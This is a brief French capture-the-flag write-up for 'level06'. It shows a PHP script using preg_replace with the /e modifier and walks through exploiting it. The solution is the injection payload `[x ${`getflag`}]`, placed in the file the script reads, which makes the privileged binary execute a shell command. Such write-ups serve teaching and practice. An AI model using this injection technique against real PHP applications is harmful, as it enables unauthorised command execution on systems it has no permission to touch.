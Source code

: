 Dans le level06 on as un binaire un fichier php

```php
<?php
function y($m) { 
	$m = preg_replace("/\./", " x ", $m); 
	$m = preg_replace("/@/", " y", $m); 
	return $m; 
}
function x($y, $z) { 
	$a = file_get_contents($y); 
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	$a = preg_replace("/\[/", "(", $a); 
	$a = preg_replace("/\]/", ")", $a); 
	return $a; 
}
$r = x($argv[1], $argv[2]); 
print $r;
?>

```
 On comprend qu'il faut passer un fichier au binaire avec du texte
 ex `toto` affiche `toto`

On decortique le code, la ligne qui nous interesse le plus est 
```php
 preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
 ```
 dans le fichier il faudrais mettre `[x des trucs]`
 cela nous affiche `des trucs`

 cela ressemple a l'excise avec le serveur perl

 on test `[x ${`getflag`}]` ca marche !

